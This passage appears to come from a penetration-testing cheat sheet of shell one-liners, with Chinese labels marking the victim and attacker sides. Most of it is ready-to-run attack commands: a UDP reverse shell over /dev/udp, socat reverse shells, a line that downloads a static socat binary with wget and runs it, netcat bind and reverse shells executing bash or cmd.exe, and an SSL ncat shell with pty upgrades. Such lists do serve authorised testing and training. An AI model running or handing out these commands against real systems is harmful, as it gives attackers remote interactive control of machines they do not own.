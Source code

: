     ```bash
    Victim:
    sh -i >& /dev/udp/10.0.0.1/4242 0>&1

    Listener:
    nc -u -lvp 4242
    ```

**Socat**
```bash
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```bash
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

**nc**
- **bind shell**
    ```bash
    # 被控端
    nc -lvp 4444 -e cmd.exe     # win
    nc -lvp 4444 -e /bin/bash   # linux

    # 攻击端
    nc -nv 192.168.30.35 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **reverse shell**
    ```bash
    # 被控端
    nc -nv 192.168.30.35 4444 -e /bin/bash

    # 攻击端
    nc -lvp 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

**ncat**
```bash
# 被控端
ncat lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl

# 攻击端
ncat -v 192.168.30.35 4444 --ssl
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
